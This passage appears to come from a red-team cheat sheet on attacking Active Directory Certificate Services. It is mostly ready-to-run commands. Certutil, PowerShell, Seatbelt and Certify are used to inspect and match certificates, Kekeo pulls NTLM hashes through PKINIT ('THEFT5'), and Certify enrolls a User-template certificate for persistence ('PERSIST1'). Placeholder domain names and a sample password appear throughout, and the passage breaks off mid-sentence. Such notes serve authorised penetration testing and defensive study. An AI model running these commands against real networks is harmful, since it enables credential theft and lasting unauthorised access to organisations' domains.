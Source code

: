 Parse `.pfx` with certutil:

```
Cmd > certutil.exe -dump -v cert.pfx
```

Correlate a certificate with a CA thumbprint on the host and in AD:

```
# Get cert's thumbprint
PS > $CertPath = "C:\Users\snovvcrash\cert.p12"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.Thumbprint

# Match it with CA certs' thumbprints trusted by the current host
Cmd > .\Seatbelt.exe -q CertificateThumbprints

# Match it with CA certs' thumbprints from AD
Cmd > .\Certify.exe find /quiet
```




## Steal NTLM via PKINIT (THEFT5)

Request NTLM hash when the account is authenticated with a TGT through PKINIT with Kekeo:

```
Cmd > .\kekeo.exe "tgt::pac /caname:CorpCA /domain:megacorp.local /subject:snovvcrash /castore:current_user" "exit"
```




## Persistence via Certificates



### User Persistence (PERSIST1)

Find certificate templates available for enrollment for the current user:

```
Cmd > .\Certify.exe find /clientauth
```

Search for any template that allows domain authentication (a stock published template that allows client authentication is the `User` template).

Request a new certificate for enrolling current user context:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:User
```

This will output a certificate and private key in `.pem`. To convert it to `.pfx` compatible with Rubeus do:
